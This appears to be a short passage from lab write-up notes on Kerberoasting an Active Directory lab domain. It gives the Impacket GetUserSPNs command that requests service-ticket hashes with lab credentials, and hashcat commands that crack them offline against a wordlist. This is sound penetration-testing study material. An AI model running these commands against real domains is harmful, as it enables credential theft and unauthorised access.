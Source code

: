 <figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

### Kerberoasting #2  - Impacket

```
sudo python3.9 /root/test/impacket/examples/GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.226.108 -request > hashes.txt
```

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Hashes were found for the same two accounts when doing this with Rubeus.

```
hashcat -m 13100 -a 0 hashes.txt Pass.txt
hashcat -m 13100 -a 0 hashes.txt Pass.txt --show
```
